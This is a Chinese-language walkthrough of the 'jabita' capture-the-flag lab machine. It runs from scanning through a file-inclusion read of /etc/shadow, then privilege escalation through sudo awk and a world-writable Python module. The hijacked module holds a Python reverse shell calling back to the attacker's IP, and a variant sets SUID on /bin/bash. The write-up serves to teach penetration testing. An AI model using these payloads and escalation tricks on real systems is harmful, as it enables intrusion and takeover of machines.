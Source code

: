 
|   |   |   |
|---|---|---|
|jabita|easy|文件包含利用、shadow爆破、sudo-awk 提权、python库劫持提权、python反弹shell|

# 主机发现
```C
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -i eth0 -r 192.168.44.139/24
```

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.147 
```
22,  80

# 目录扫描
```c
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.44.147 -x php,html.txt.png -e
```

```c
http://192.168.44.147/building   
在这个页面随便点个home
发现这个页面可能存在文件包含http://192.168.44.147/building/index.php?page=home.php
初次尝试得到结果
http://192.168.44.147/building/index.php?page=/etc/shadow


jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7::: 
```
# john爆破




# 提权

```c
jack@jabita:~$ sudo -l
    (jaba : jaba) NOPASSWD: /usr/bin/awk 
```

然后去这个网站搜索相关命令getshell，，，awk
[GTFOBins](https://gtfobins.github.io/)

```c
sudo awk 'BEGIN {system("/bin/sh")}'
```

```c
jack@jabita:~$ sudo -u jaba  /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ id
uid=1002(jaba) gid=1002(jaba) groups=1002(jaba)

$ script /dev/null -c bash
jaba@jabita:/home/jack$ sudo -l
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py
```
查看这个文件为root 权限，该脚本导入了wild 模块，执行后调用first()方法，输出一个hello。
我们搜索该模块，查看模块内容如下
```c
jaba@jabita:/home/jack$ cat /usr/bin/clean.py 
import wild

wild.first()
jaba@jabita:/home/jack$ ls -all /usr/bin/clean.py 
-rw-r--r-- 1 root root 26 Sep  5  2022 /usr/bin/clean.py
jaba@jabita:/home/jack$ /usr/bin/python3 /usr/bin/clean.py
Hello
jaba@jabita:/home/jack$ find / -type f -name "wild.py" 2>/dev/null
/usr/lib/python3.10/wild.py
jaba@jabita:/home/jack$ cat /usr/lib/python3.10/wild.py
def first():
        print("Hello")
jaba@jabita:/home/jack$ ls -all /usr/lib/python3.10/wild.py
-rw-r--rw- 1 root root 29 Sep  5  2022 /usr/lib/python3.10/wild.py
```

我们对改文件具有修改的权限，因此可以尝试python库劫持进行提取
那么接下来我们可以使用python反弹一个shell,代码如下
```c
import os
def first():
	os.system("python3 -c \"import       os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.44.128',9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);\"")

```

实战中，如果机器不出网，我们可以修改该脚本的内容，让它可以使用 SUID 执行 bash。或者直接创建一个root权限的账号。

```c
import os
def first():	
	os.system("chmod u+s /bin/bash")
```

```c
find / -perm -u=s -type f 2>/dev/null
```
